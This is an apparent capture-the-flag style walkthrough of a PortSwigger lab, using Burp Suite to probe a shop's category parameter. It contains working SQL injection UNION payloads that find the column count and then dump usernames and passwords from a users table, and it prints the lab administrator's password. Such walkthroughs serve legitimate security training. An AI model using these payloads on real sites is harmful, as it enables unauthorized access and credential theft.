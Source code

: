 ```yaml
---
description: >-
  https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables
---
```


# SQL injection UNION attack, retrieving data from other tables

<figure><img src="../../../.gitbook/assets/1 (163).png" alt=""><figcaption></figcaption></figure>

Let's filter for `Gifts`.

<figure><img src="../../../.gitbook/assets/2 (145).png" alt=""><figcaption></figcaption></figure>

Since we are proxying the traffic through Burp Suite, we can go to the `Proxy > HTTP History` tab to view this request.

<figure><img src="../../../.gitbook/assets/3 (127).png" alt=""><figcaption></figcaption></figure>

Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater`, let's set the `category` parameter to the following:

```
' UNION SELECT 'test'--
```

<figure><img src="../../../.gitbook/assets/4 (108).png" alt=""><figcaption></figcaption></figure>

Since the application returns an error, we know that the number of columns in the current query is more than 1.

Let's set the `category` parameter to the following:

```
' UNION SELECT 'test', 'test'--
```

<figure><img src="../../../.gitbook/assets/5 (91).png" alt=""><figcaption></figcaption></figure>

Now that we know the current query has two columns, we can retrieve the usernames and password from the `username` and `password` columns respectively.

```
' UNION SELECT username, password FROM users--
```

<figure><img src="../../../.gitbook/assets/6 (77).png" alt=""><figcaption></figcaption></figure>

We can now login as the admin using the following credentials:

| Username      | Password             |
| ------------- | -------------------- |
| administrator | 21tpnvx8ho5pyej8z6sy |

<figure><img src="../../../.gitbook/assets/7 (60).png" alt=""><figcaption></figcaption></figure>

We have solved the lab.

<figure><img src="../../../.gitbook/assets/88.png" alt=""><figcaption></figcaption></figure>
